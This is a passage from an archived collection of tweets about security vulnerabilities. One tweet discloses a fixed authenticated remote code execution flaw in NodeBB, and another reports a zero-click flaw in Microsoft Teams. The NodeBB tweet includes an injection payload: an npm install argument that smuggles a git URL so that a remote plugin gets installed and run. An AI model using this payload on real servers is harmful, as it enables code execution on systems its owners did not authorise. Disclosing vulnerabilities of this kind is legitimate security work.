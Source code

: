 
# numanturle
**https://twitter.com/numanturle/status/1336253674654490624 _at 2020-12-08 10:17:57_**
<blockquote>
Nodebb Authenticated Remote Code Execution Vulnerability

Status : fixed
npm install ARGV1@ARGV2 --save
https://t.co/7yjxZtnj83

ARGV1 = git+https://
ARGV2 = https://t.co/aICrsRlaRO
npm install git+https://@github.com/numanturle/nodebb-plugin# --save

https://t.co/NyKi99Jkeo
</blockquote>

* https://docs.npmjs.com/cli/v6/commands/npm-install#synopsis
* http://github.com/numanturle/nodebb-plugin#
* https://www.youtube.com/watch?v=5i5zwpJcYts

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# tomwarren
**https://twitter.com/tomwarren/status/1336251506576777218 _at 2020-12-08 10:09:20_**
<blockquote>
A security researcher discovered a  zero-click remote code execution flaw in Microsoft Teams. The Microsoft response to a serious security problem was incredibly weak for a product used by 115 million people daily https://t.co/77mKZhx2yd https://t.co/Cps9Lz5aAy
</blockquote>

* https://github.com/oskarsve/ms-teams-rce/blob/main/README.md

<table><tr>